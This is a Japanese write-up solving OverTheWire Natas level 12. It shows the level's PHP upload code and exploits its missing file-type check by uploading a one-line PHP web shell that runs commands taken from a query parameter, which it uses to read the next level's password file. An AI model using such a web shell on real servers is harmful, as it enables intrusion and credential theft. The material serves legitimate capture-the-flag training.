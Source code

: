 ```

Natas Level 11 → Level 12

Username: natas12
URL:      http://natas12.natas.labs.overthewire.org
```

![](img/natas12-1.png)  

画像ファイルをアップロードする機能が存在する。  
フリー画像をアップロードしようと思ったが" Choose a JPEG to upload (max 1KB)"とあるように、  
1KBまでのjpeg形式の画像じゃないとだめらしい。  

ImageMagickを使用して1KB未満サイズのjpen画像を生成する。  
```
convert -size 1x1 xc:black image.jpg
```

生成した画像をアップロードする。  

![](img/natas12-2.png)  

アップロードした画像を見られるリンクが表示される。  

何をしたらいいのかわからないので、ソースコードを確認します。  

```
 <html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas12", "pass": "<censored>" };</script></head>
<body>
<h1>natas12</h1>
<div id="content">
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];a
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

genRandomString関数でlengthが10の英数字小文字の文字列を返していたり、  
`$target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);`で、先程の関数で生成した文字列をファイル名にしている。  

コードをよくよく観察していると、ファイルサイズが1KB以下かどうかをチェックしているがjpeg形式かどうかをチェックしていない。  
つまり好きなファイルをアップロードできてしまう。  

`<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />`のようにアップロードするファイル名が  
ハードコーディングされているので書き換えられる。  

以下のコードが書かれているファイルをアップロードしてみる。  
```
<?php system($_GET["cmd"]);?>
```

アップロードしたら表示されたリンクに飛び、クエリ文字列のパラメータ名cmdで自由にコマンドを実行できる。  

/etc/natas_webpass/natas13　にflagがあるのでcatしてクリアできる。  





